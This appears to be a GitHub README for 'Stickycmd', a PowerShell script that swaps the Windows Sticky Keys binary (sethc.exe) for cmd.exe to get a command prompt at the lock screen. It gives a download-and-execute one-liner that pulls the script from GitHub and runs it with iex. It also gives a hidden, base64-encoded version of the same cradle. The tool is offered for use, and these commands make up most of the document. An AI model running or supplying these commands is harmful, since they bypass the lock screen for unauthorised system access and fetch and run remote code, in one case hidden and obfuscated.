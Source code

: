 # Stickycmd

![Stickycmd](https://ctrla1tdel.files.wordpress.com/2020/05/uspluozhe5-1.gif)

## About

PowerShell Script that replaces sethc.exe with cmd.exe, allowing you to get a cmd prompt during the lockout screen. 


##Run

You can either run locally by downloading the script or run remotely using: 

powershell –nop –c “iex(New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/securethelogs/Stickycmd/master/stickycmd.ps1)”

or

powershell -nop -noni -w hidden -enc aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAYIGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AcwBlAGMAdQByAGUAdABoAGUAbABvAGcAcwAvAFMAdABpAGMAawB5AGMAbQBkAC8AbQBhAHMAdABlAHIALwBzAHQAaQBjAGsAeQBjAG0AZAAuAHAAcwAxACcAKQApAA==

